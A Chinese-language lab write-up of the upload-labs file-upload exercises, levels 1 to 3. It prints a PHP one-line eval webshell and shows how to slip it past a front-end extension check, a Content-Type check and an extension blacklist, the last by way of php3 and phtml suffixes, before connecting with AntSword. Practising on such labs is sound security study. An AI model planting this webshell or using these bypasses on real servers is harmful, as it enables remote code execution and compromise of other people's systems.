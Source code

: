 

## upload-labs 2023/10/21

先构造一个php文件用于存放（上传）php一句话木马

```php
@eval($_POST['hack']);
//@号表示后面的语句即使执行错误也不报错
//eval()函数的作用是把括号内的字符串全部当作php代码来执行
```

## less 1

script语言在前端做了验证
![image-20231021194120216](C:\Users\13461\AppData\Roaming\Typora\typora-user-images\image-20231021194120216.png)

那就先将后缀改成jpg 然后再用bp抓包改后缀名:
![image-20231021194520904](C:\Users\13461\AppData\Roaming\Typora\typora-user-images\image-20231021194520904.png)

尝试用蚁剑链接:
![image-20231021195835533](C:\Users\13461\AppData\Roaming\Typora\typora-user-images\image-20231021195835533.png)

链接成功!

![image-20231021200640469](C:\Users\13461\AppData\Roaming\Typora\typora-user-images\image-20231021200640469.png)也可以

------

## less 2

![image-20231021200815189](C:\Users\13461\AppData\Roaming\Typora\typora-user-images\image-20231021200815189.png)

![image-20231021200832220](C:\Users\13461\AppData\Roaming\Typora\typora-user-images\image-20231021200832220.png)

直接改包成 Content-Type: image/jpeg 就可以绕过了

------

## less 3

上传1.php 提示：不允许上传.asp,.aspx,.php,.jsp后缀文件！          

```php
$deny_ext = array('.asp','.aspx','.php','.jsp');
//可以看到这是一个黑名单
```

尝试改后缀名绕过 比如php3-php7 phtml 这些都可以被当做php文件解析
**直接抓包改成后缀php3即可 了解即可 文件靶场不支持中间件的解析 所以蚁剑链接不上**

------
